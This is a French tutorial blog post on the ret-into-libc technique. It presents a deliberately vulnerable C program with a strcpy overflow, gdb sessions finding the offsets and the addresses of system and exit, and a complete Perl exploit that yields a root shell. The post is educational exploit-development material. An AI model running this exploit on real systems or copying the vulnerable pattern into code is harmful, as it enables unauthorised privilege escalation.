 Title: Ret into Libc
Date: 2012-01-28
Category: App
Tags: ret into libc,overflow,exploitation
Author: Tosh
Summary: Return into libc : basics

Dans cet article, je vais décrire brièvement comment exploiter un programme en utilisant la méthode de ret into libc. Ceci a été testé uniquement sur FreeBSD 8.1, sans ASLR, et sans SSP d'activé.

Prenons le programme vulnérable suivant :

	:::c
	#include <string.h>
	#include <stdio.h>

	void foo(char *buff)
	{
    	char buffer[100];
    	strcpy(buffer, buff);
	}
	
	int main(int argc, char **argv)
	{
    	if(argc != 2)
    	{
        	printf("Usage : %s \n", argv[0]);
        	return 0;
    	}
    	foo(argv[1]);
    	return 0;
	}

Nous avons donc un stack overflow dans la fonction foo. Nous savons que nous écrasons EBP après 100 caractères copiés, et EIP après 104 caractères.

Pour être sûr, testons :

	:::console
	(gdb) r `perl -e 'print "A"x100 . "BBBB" . "CCCC";'`
	Program received signal SIGSEGV, Segmentation fault.
	0x43434343 in ?? ()
	(gdb) i r ebp eip
	ebp            0x42424242     0x42424242
	eip            0x43434343     0x43434343

Nous avons donc bien écrasé EBP avec les 'B' et EIP avec les 'C'. Le principe du ret into libc, est qu'au lieu de jumper sur un shellcode en STACK ou présent dans une variable d'environnement, nous jumpons sur une fonction de la bibliothèque C.

Le plus simple, étant de sauter sur la fonction system, nous pourrons alors exécuter la commande de notre choix. Pour se faire, il faudra écraser EIP, avec l'addresse de la fonction system située dans le programme vulnérable, en lui transmettant l'addresse où sera situé notre chaine à exécuter.

En connaissant un peu comment fonctionne les appels de fonctions en C, nous savons que system() ira chercher l'addresse de la chaine 4 octets plus haut sur la pile au moment de l'appel, le sommet de la pile étant EIP empilé par l'instruction CALL.

Une manière propre de faire, étant de placer l'addresse de exit entre l'addresse de system() (Qui écrase EIP), et l'addresse de notre commande. Ainsi, le programme fermera proprement au retour de la fonction system. (Car system jumpera sur l'adresse située sur le sommet de la pile, pensant qu'elle a été appellée grâce à l'instruction CALL).

Notre stack ressemblera donc à ceci :

    :::console
	[     BUFFER     ]
	[     BUFFER     ]
	[      ...       ]
	[     BUFFER     ]
	[ Adresse system ]
	[  Adresse exit  ]
	[Adresse commande]
	[   Commande     ]
	[   Commande     ]
	[   Commande     ]

Pourquoi mettre la chaîne de l'argument de system APRÈS les adresses, et pas dans le buffer ? Car cette chaîne a besoin du caractère final '\0', hors si on le met au début, strcpy arrêtera la copie, et nous ne pourrons pas exploiter notre programme.

Le risque, étant d'écraser des données utiles à l'exploitation. Récupérons les adresses de system et exit :

	:::console
	[tosh@sys-tosh /usr/home/tosh/Desktop]$ gdb vuln
	GNU gdb 6.1.1 [FreeBSD]
	Copyright 2004 Free Software Foundation, Inc.
	GDB is free software, covered by the GNU General Public License, and you are
	welcome to change it and/or distribute copies of it under certain conditions.
	Type "show copying" to see the conditions.
	There is absolutely no warranty for GDB.  Type "show warranty" for details.
	This GDB was configured as "i386-marcel-freebsd"...(no debugging symbols found)...
	(gdb) b main
	Breakpoint 1 at 0x8048470
	(gdb) r
	Breakpoint 1, 0x08048470 in main ()
	(gdb) x exit
	0x28101920 :  0x53e58955
	(gdb) x system
	0x280ad870 :  0x0001b855

Nous avons donc :

	:::console
	system : 0x280ad870
	exit   : 0x28101920

Le plus dur, reste de trouver l'adresse de la chaine.

Exécutons le programme, et tentons de trouver le début de la chaîne :

	:::console
	(gdb) r `perl -e 'print "A"x108 . "BBBB";'`
	Program received signal SIGSEGV, Segmentation fault.
	0x41414141 in ?? ()
	(gdb) i r $esp
	esp            0xbfbfe9c0     0xbfbfe9c0
	(gdb) x/s $esp
	0xbfbfe9c0:    "BBBB"

Nous avons notre chaîne ! Avec le shéma de la stack précédente, nous savons que notre chaine sera située 8 octets plus loin dans la stack, soit a l'adresse 0xbfbfe9c8

Nous pouvons donc écrire notre exploit :

	:::perl
	#!/usr/bin/perl
	use strict;

	my $system_addr = "\x70\xd8\x0a\x28";
	my $exit_addr = "\x20\x19\x10\x28";
	my $cmd_addr = "\xc8\xe9\xbf\xbf";
	my $cmd = "/bin/sh";

	my $buff = ("A"x104) . ($system_addr). $exit_addr. $cmd_addr.$cmd;

	print "[*] Inj3ct code...\n";

	exec("./vuln", $buff) || die("Can't exec file\n");

Comme vous le savez, sur un système LITTLE_ENDIAN, il faut écrire les adresses "à l'envers", les octets de poids faibles étant à gauche, et ceux de poids fort à droite.

Lançons l'exploit :

	:::console
	[tosh@sys-tosh /usr/home/tosh/Desktop]$ perl test.pl
	[*] Inj3ct code...
	# id
	uid=1001(tosh) gid=1001(tosh) euid=0(root) groups=1001(tosh),0(wheel)
	#

Et voilà.
